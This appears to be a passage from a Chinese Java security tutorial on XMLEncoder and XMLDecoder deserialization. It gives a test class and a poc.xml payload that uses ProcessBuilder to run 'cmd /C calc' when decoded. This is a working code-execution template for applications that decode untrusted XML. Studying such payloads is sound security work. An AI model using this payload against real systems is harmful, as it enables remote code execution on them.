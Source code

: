 example:

```plain
XMLEncoder e = new XMLEncoder(
                    new BufferedOutputStream(
                        new FileOutputStream("Test.xml")));
e.writeObject(new JButton("Hello, world"));
e.close();
```

Constructor and Method:

```plain
XMLEncoder(OutputStream out)
//Creates a new XML encoder to write out JavaBeans to the stream out using an XML encoding.
//...

void writeObject(Object o)
//Write an XML representation of the specified object to the output.
```

### 2.2 XMLDecoder 反序列化测试

测试类：

```plain
package XmlDecoder;

import java.beans.XMLDecoder;
import java.io.BufferedInputStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;

public class XmlDecoderTest {
    public static void main(String[] args) throws FileNotFoundException {
        XMLDecoder xmlDecoder = new XMLDecoder(new BufferedInputStream(new FileInputStream("C:\\code\\javacode\\java-sec\\src\\main\\java\\XmlDecoder\\poc.xml")));
        Object o = xmlDecoder.readObject();
        xmlDecoder.close();
    }
}
```

测试 poc.xml

```plain
<java version="1.4.0" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>cmd</string>
            </void>
            <void index="1">
                <string>/C</string>
            </void>
            <void index="2">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/></void>
</java>
```
